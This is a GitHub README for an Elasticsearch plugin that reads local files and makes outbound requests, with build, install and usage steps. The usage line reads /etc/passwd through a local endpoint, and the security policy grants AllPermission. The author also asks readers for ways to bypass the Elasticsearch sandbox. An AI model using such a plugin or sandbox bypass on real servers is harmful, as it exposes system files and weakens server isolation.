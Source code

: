 Elasticsearch plugin to read local files  and send request
===========================

## Compile and pack

Change the elasticsearch plugins version number in `elasticsearch/plugin-descriptor.properties`, here is 6.2.3.
Then
```
mvn clean package
cp target/elasticsearch-plugin-sample-6.6.0-SNAPSHOT.jar elasticsearch/
zip -r elasticsearch-plugin-sample-6.6.1-SNAPSHOT.zip elasticsearch
```

## Install

```
elasticsearch-plugin install file:///elasticsearch-plugin-sample-6.6.1-SNAPSHOT.zip
```

### Usage

```
curl "http://127.0.0.1:9200/_sample?path=/etc/passwd&url=http://google.com"
```


### Notice

This plugins ask for some other permissions in `elasticsearch/plugin-security.policy`  as below:

```
grant {
	permission java.lang.RuntimePermission "setSecurityManager";
	permission java.io.FilePermission "/etc/passwd", "read";
	permission java.security.AllPermission;
};
```
Use it before you known what you are doing.

This plugins cannot run any command, spawn any process or something like that, because the sandbox of elasticsearch do not allow, it allow:

```
FilePermissions(read,write)
SocketPermissions(connect, listen, accept)
URLPermission,PropertyPermission,...
```

If you know some way to bypass it, tell me please. :)


### Reference

https://spinscale.de/posts/2020-04-07-elasticsearch-securing-a-search-engine-while-maintaining-usability.html
https://github.com/codelibs/elasticsearch-plugin-sample
https://discuss.elastic.co/t/customize-java-security-manager-settings/72255
https://github.com/elastic/elasticsearch/blob/7.7/server/src/main/java/org/elasticsearch/bootstrap/ESPolicy.java
https://github.com/spinscale/talk-elasticsearch-security-manager-and-seccomp/blob/master/src/main/java/de/spinscale/security/samples/SecurityManagerSamples.java
https://blog.csdn.net/goodluck_mh/article/details/92845023








